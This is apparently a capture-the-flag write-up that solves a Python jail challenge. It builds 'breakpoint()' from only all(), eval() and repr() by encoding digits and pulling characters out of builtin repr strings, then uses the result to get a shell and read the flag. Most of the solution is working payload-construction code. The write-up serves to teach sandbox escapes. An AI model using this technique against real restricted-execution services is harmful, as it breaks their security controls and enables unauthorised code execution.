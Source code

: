 ## Python FXXK

<img src="images/chall.png" width=400>

In this Pyjail, we are given a limited charset to craft payloads.  

<img src="images/charset.png" width=400>

This limits the builtins we can use to only `all()`, `eval()` and `repr()`.  

The shortest and most verbose payload we can craft would be `breakpoint()`, however, we need to find a way of representing it using only the provided characters.  

The basic building block of our payload would be digits, and we can thankfully craft `0` and `1` using the allowed builtins.  

```python
+all([[]]) # 0
all([])    # 1
```

Crafting larger numbers isn't an issue, as we can simply chain our digit representations.  

```python
def digit(n):
    if n == 0:
        return "+all([[]])"
    return '+'.join(['all([])'] * n)
```

Now that we can represent arbitrary numbers, representing characters isn't that complicated either, as we can simply grab characters from the string representations of builtins.  

```python
f'repr(eval)[{digit(21)}]' # a
```

However, this could pose a challenge when we require characters that aren't in the string representations of the provided builtins.  

The next step wouild be to gain access to the `chr()` function, allowing us to address this issue.  

```python
f = f'repr(eval)[{digit(10)}]'
l = f'repr(all)[{digit(4)}]'
o = f'repr(repr)[{digit(16)}]'
a = f'repr(eval)[{digit(21)}]'
t = f'repr(repr)[{digit(5)}]'

# repr(float(1))[1]
dot = f'repr(eval({f}+{l}+{o}+{a}+{t})({digit(1)}))[{digit(1)}]' 

u = f'repr(repr)[{digit(2)}]'
n = f'repr(repr)[{digit(8)}]'

c = f'repr(repr)[{digit(13)}]'

# repr([].count)[13]
h = f"repr(eval(repr([])+{dot}+{c}+{o}+{u}+{n}+{t}))[{digit(13)}]"

r = f'repr(repr)[{digit(19)}]'
```

Now that we are able to craft arbitrary characters, we are finally able to build the full payload. 

```python
b = f'repr(repr)[{digit(1)}]'
r = r
e = f'repr(eval)[{digit(19)}]'
a = a
k = f'eval({c}+{h}+{r})({digit(107)})'
p = f'repr(repr)[{digit(21)}]'
o = o
i = f'repr(repr)[{digit(3)}]'
n = n
t = t
lb = f'repr(())[{digit(0)}]'
rb = f'repr(())[{digit(1)}]'

payload = '+'.join([b, r, e, a, k, p, o, i, n, t, lb, rb])
payload = f'eval({payload})'
```

Submitting the payload then gives us a shell where we can retrieve the flag.  


<img src="images/flag.png" width=800>
